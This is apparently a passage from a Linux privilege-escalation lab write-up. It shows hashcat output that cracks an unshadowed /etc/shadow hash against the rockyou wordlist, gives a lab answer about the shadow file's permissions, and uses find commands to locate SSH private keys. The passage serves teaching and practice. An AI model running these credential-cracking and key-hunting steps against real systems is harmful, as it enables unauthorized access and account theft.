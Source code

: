 ~~~
Hashfile 'unshadowed.txt' on line 20 (Debian...103::/var/spool/exim4:/bin/false): Token length exception
Hashfile 'unshadowed.txt' on line 21 (sshd:*...:/var/run/sshd:/usr/sbin/nologin): Token length exception
Hashfile 'unshadowed.txt' on line 22 (statd:...3:65534::/var/lib/nfs:/bin/false): Token length exception
Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Uses-64-Bit

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 4 secs

$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123

[REDACTED]
~~~

## 6.1 - What were the file permissions on the /etc/shadow file?

Answer: `-rw-rw-r--`


# [Task 7] Privilege Escalation - SSH Keys

**Detection**

Linux VM

1. In command prompt type: `find / -name authorized_keys 2> /dev/null`
2. In a command prompt type: `find / -name id_rsa 2> /dev/null`
3. Note the results.

~~~
TCM@debian:~$ find / -name authorized_keys 2> /dev/null
TCM@debian:~$ find / -name id_rsa 2> /dev/null
/backups/supersecretkeys/id_rsa
~~~
